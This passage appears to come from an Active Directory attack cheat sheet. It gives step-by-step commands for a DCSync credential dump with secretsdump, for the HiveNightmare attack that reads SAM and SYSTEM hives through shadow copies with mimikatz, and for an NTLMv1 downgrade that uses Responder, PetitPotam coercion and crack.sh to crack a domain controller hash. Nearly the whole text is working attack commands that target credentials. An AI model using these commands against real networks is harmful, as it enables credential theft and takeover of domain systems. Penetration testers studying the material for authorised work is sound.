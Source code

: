 2. Perform DCSync with null auth
```bash
python3 secretsdump.py -just-dc -no-pass testlab/DC01\$@10.10.10.10
```

### HiveNightmare
1. Check if system is vulnerable with the following commands
```powershell
# Check if BUILTIN/Users has read permission
icacls C:\Windows\System32\config\SAM

# Check if shadow copy is available
vssadmin list shadows
```

2. Dump SYSTEM Hive with mimikatz
```css
# mimikatz (On remote computer)
mimikatz# lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# secretsdump.py (Local)
secretsdump.py -sam SAM-file -system SYSTEM-file LOCAL
```

Note that the above methods is the manual way. This has been implemented in a automated C# code called [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare). Once you retrieve admin's ntlm, you can do lots of stuff including [changing password](https://twitter.com/gentilkiwi/status/1417467063883476992) or [Pass The Hash](#overpass-the-hash-opth)/PsExec/Evil-Winrm...

# NTLMv1 Shenanigans
### NTLM Downgrade
For below steps, it requires a specific challenge needed to be configured in `/etc/responder/Responder.conf`. Modify the challenge part to _1122334455667788_ in order to match with [crack.sh](https://crach.sh) rainbow tables.

1. Run responder with `--lm` flag. _(Note that in order to get a crackable hash for NTLMv1-SSP hash --disable-ess flag is required. Refer this tweet by [@HackAndDo](https://twitter.com/HackAndDo/status/1420135330171207685?s=20&t=0_1oqdiizE_Hbs5XKByHEw))_
```bash
responder -I eth0 --lm [--disable-ess]
```
2. Coerce authentication with your own methods (i.e. PetitPotam, DFSCoerce, PrinterBug).
```bash
python3 PetitPotam.py 192.168.86.193 192.168.86.182
```
3. A hash should appear on responder event logs. Convert the hash to a crack.sh cracking format with this [tool](https://github.com/evilmog/ntlmv1-multi). Refer steps explained in http://crack.sh/netntlm/
```bash
python3 ntlmv1.py --ntlmv1 'DC01$::RANGE:B8154B285809096F4AA9D8285846C401CDE8D2F1FBE4AC91:B8154B285809096F4AA9D8285846C401CDE8D2F1FBE4AC91:1122334455667788'
```
4. Submit hash to https://crack.sh/get-cracking and wait for the result (should be retrieved via email within seconds)
